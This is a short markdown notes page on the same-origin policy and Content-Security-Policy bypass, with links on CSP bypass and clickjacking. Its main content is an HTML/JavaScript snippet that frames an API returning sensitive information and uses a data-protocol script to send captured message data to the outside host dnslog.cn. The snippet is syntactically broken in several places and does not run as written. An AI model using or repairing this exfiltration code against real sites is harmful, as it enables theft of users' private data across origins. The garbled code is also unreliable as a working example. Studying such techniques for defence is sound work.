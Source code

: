 ## SOP
## CSP
Content-Security-Policy
- [Bypass of CSP](https://csplite.com/csp320/)
- data protocol allowed
[ClickJacking](https://resources.infosecinstitute.com/topic/bypassing-same-origin-policy-part-3-clickjacking-cursorjacking-filejacking/)
```
<html>
<body>
<iframe id='attack' src="http"//get_method_api_response_contains_sensitive_info/api"></iframe>
<script type="text/javascript">

var frame = document.getElementById("attack");
frame.addEventListener("load", function(){
  setTimeout(sendInfo,600)})
 
function sendInfo{
var payload = btoa(<script>                     #data protocol
    window.addEventListener(
     function(event)
       {xhr = new XMLHttpRequest();
        xhr.open("GET","http://dnslog.cn?message="+ event.data);
        xhr.send(null)}
       )
    </script>)
}
</script>
</body>
</html>
```
